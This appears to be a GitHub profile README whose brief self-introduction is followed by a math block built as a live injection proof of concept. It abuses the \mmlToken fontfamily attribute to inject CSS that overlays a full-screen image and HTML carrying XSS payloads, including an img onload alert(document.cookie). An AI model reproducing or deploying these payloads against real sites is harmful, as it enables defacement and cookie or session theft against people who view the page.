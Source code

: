 ### Hi there 👋
- 🔭 I’m currently working on some web projects
- 🌱 I’m currently learning PHP and MYSQL
- 🤔 I’m looking for help with html, css front-end code
- ⚡ Fun fact: Always online but not for the good reason
```math
\mmlToken{ms}[fontfamily="thxpewpew;background:color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true');"]{nowhere}
\mmlToken{ms}[fontfamily="thxpewpew;I'm in ur walls ;))"]{<YOOOO<></><img src='https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true' onload=alert(/1/)>}
\mmlToken{
<img src=x onload=alert(document.cookie) />
        <script>
            <mi></mi>
        </script>
    }[fontfamily="imnothere;11111111111111111111111111111\"'><a></a>"]{demo}
```
